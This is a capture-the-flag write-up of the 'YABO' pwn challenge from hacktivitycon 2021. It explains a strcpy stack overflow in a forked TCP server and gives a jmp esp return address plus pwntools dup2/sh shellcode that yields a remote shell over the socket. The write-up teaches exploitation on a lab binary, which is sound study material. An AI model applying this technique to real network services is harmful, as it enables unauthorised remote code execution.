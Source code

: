 # YABO - hacktivitycon 2021

- Category: Pwn
- Points: 478
- Solves: 47
- Solved by: drw0if

## Description

Yet Another Buffer Overflow.

Some certifications feature a basic windows buffer overflow. Is the linux version really that different?

## Solution

Reversing the binary with ghidra we understand that we have to exploit a TCP server:

- it waits for an incoming connection on port `9999`
- fork the process
- on the child process proceeds to execute `vuln` function

The vuln function, as the name suggests, is vulnerable to buffer overflow, in fact it asks for a string that is stored inside a heap buffer, then it uses `strcpy` to copy the string from the heap buffer to a `smaller` local buffer, so we can hijack the control flow.

The binary has no protection:
```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Let's search for useful ROP gadgets:
```bash
ROPgadget --binary YABO
```

A fast approach would be to inject shellcode and jump to it, we can do it since we have the gadget:
```bash
0x080492e2 : jmp esp
```

Our exploit will look like:
```
0x080492e2
$shellcode
```

To pop a shell we can't use plain `execve` or `system` since it would be poppped inside the server and we couldn't interact with it, to help us we can use the linux syscall `dup2` to connect the stdin, stdout, stderr of the server to the socket, so everything we will write to the socket is written to stdin too and vice versa.  

To build it fastly we can use pwntools `shellcraft`:

```python
shellcode = shellcraft.linux.dup2(4, 0)
shellcode += shellcraft.linux.dup2(4, 1)
shellcode += shellcraft.linux.dup2(4, 2)
shellcode += shellcraft.linux.sh()
```

Using `gdb` we can find the offset at which the rip is overwritten and the final exploit is:

```python
payload = {
   1044 : 0x080492e2,
   1048 : compiled
}
```
